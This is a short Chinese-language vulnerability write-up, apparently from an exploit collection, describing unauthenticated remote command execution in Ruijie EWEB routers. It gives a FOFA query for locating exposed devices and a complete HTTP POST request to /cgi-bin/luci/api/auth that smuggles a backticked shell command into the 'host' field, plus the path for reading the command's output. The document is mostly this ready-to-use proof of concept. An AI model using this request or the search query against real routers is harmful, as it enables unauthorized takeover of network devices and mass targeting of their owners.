 # 锐捷 EWEB路由器 auth 远程命令执行漏洞

# 一、漏洞简介
锐捷睿易是锐捷网络面向商务市场的子品牌。拥有便捷的网络、交换机、路由器、无线、安全、云服务六大产品线，解决方案涵盖商业零售、酒店、kt、网吧、监控与安全、物流、仓储、制造。通过该漏洞，攻击者可以任意执行服务器端的代码，编写后门，获得服务器权限，进而控制整个web服务器。

# 二、影响版本
+ 锐捷 EWEB路由器

# 三、资产测绘
+ fofa`body="cgi-bin/luci" && body="#f47f3e"`
+ 特征

![1709883604157-a88eaed0-f449-414c-86ab-4951422896ee.png](./img/jMJPLGwCvErQjGMK/1709883604157-a88eaed0-f449-414c-86ab-4951422896ee-226270.png)

# 四、漏洞复现
```plain
POST /cgi-bin/luci/api/auth HTTP/1.1
Host: 
Content-Type: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

{"method":"checkNet","params":{"host":"`echo c149136B>AD0D5b8c.txt`"}}
```

![1709883649047-81989889-fb44-46a7-bfdc-3850b3fdc6f4.png](./img/jMJPLGwCvErQjGMK/1709883649047-81989889-fb44-46a7-bfdc-3850b3fdc6f4-707818.png)

获取命令执行结果

```plain
/cgi-bin/AD0D5b8c.txt
```

![1709883674250-cfa2c2d1-6da8-4b48-9091-344fac04b808.png](./img/jMJPLGwCvErQjGMK/1709883674250-cfa2c2d1-6da8-4b48-9091-344fac04b808-337780.png)



> 更新: 2024-06-24 11:42:26  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/vx00xdatfw3yw8px>